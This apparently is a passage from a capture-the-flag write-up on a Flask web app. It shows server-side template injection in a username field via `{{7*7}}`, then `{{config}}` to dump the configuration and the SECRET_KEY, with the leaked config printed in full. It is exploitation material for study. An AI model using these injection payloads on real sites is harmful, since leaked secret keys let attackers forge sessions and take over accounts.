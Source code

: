 Trying SSTI on username field with `{{7*7}}` and get math output on "User information" page 

![](screenshots/ssti-in-user.png)

but because of the character limit we can not do much with it but it is a flask app(probably template engine `jinja2`, but it is python) so we can dump config file and get the secret key with `{{config}}`

![](screenshots/secret-key.png)

```py
<Config {'ENV': 'production', 'DEBUG': False, 'TESTING': False, 'PROPAGATE_EXCEPTIONS': None, 'PRESERVE_CONTEXT_ON_EXCEPTION': None, 'SECRET_KEY': 'Sup3rUnpredictableK3yPleas3Leav3mdanfe12332942', 'PERMANENT_SESSION_LIFETIME': datetime.timedelta(31), 'USE_X_SENDFILE': False, 'SERVER_NAME': None, 'APPLICATION_ROOT': '/', 'SESSION_COOKIE_NAME': 'session', 'SESSION_COOKIE_DOMAIN': False, 'SESSION_COOKIE_PATH': None, 'SESSION_COOKIE_HTTPONLY': True, 'SESSION_COOKIE_SECURE': False, 'SESSION_COOKIE_SAMESITE': None, 'SESSION_REFRESH_EACH_REQUEST': True, 'MAX_CONTENT_LENGTH': None, 'SEND_FILE_MAX_AGE_DEFAULT': datetime.timedelta(0, 43200), 'TRAP_BAD_REQUEST_ERRORS': None, 'TRAP_HTTP_EXCEPTIONS': False, 'EXPLAIN_TEMPLATE_LOADING': False, 'PREFERRED_URL_SCHEME': 'http', 'JSON_AS_ASCII': True, 'JSON_SORT_KEYS': True, 'JSONIFY_PRETTYPRINT_REGULAR': False, 'JSONIFY_MIMETYPE': 'application/json', 'TEMPLATES_AUTO_RELOAD': None, 'MAX_COOKIE_SIZE': 4093, 'RATELIMIT_ENABLED': True, 'RATELIMIT_DEFAULTS_PER_METHOD': False, 'RATELIMIT_SWALLOW_ERRORS': False, 'RATELIMIT_HEADERS_ENABLED': False, 'RATELIMIT_STORAGE_URL': 'memory://', 'RATELIMIT_STRATEGY': 'fixed-window', 'RATELIMIT_HEADER_RESET': 'X-RateLimit-Reset', 'RATELIMIT_HEADER_REMAINING': 'X-RateLimit-Remaining', 'RATELIMIT_HEADER_LIMIT': 'X-RateLimit-Limit', 'RATELIMIT_HEADER_RETRY_AFTER': 'Retry-After', 'UPLOAD_FOLDER': 'static/uploads'}>
```
